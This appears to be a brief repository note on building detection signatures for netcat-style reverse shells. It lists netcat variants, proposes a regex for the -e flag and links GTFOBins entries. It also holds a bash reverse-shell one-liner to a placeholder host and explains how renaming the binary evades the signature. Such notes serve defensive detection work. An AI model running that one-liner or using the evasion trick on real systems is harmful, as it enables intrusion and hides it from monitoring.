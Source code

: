 # Netcat
Execute netcat / ncat / nc with flag -e which usually execute shell (/bin/bash, /bin/zsh). However there are many different interpreters can be executed. Better to "detect" the -e flag as dangerous signature
netcat and forked packages on repository:
- cryptcat
- dbd
- ncat
- netcat
- netcat-openbsd
- netcat-traditional
- powercat
- pwncat
- sdb
- socat
Bypass: copy, change file name to different name. For example, signature should be "ncat|netcat|nc[\S]+\-e". Bypass method can be `random_name -e /bin/randomshell`
More advanced attack could be change source code, change flag -e to different flag

# Shells
https://gtfobins.github.io/gtfobins/bash/
- bash: bash -c `exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1`. The -i means the shell is interactive

# Interpreters
- cpan (perl like) https://gtfobins.github.io/gtfobins/cpan/
- easy_install (python) https://gtfobins.github.io/gtfobins/easy_install/
- https://gtfobins.github.io/gtfobins/php/
- https://gtfobins.github.io/gtfobins/jrunscript/

# Command execute
- https://gtfobins.github.io/gtfobins/gimp/